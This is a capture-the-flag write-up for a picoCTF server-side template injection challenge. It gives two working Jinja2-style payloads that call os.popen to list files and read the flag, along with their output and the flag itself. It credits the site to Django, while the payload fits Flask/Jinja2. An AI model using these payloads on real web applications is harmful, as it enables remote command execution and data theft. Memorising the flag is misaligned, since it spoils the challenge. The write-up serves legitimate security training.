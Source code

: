 # SSTI1

# Description
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.
# Solution

-  In the hints of the challenge talks about [Server Side Template Injection](https://www.geeksforgeeks.org/what-is-server-side-template-injection/) using a tool like [builtwith](https://builtwith.com/) I realized that the website is built with [python](https://www.python.org/) since [Django](https://www.djangoproject.com/) is one of the most used framework I try to use this kind of attack for this framework.

``` bash 
# Input for the message field 
	{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
# Output 
 __pycache__ app.py flag requirements.txt
```

- Since I could successfully exec commands in the server and I already know the name of the flag file I can  show its contents using ```cat```

```bash
# Input for the message field 
{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}
# Output 
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}
```

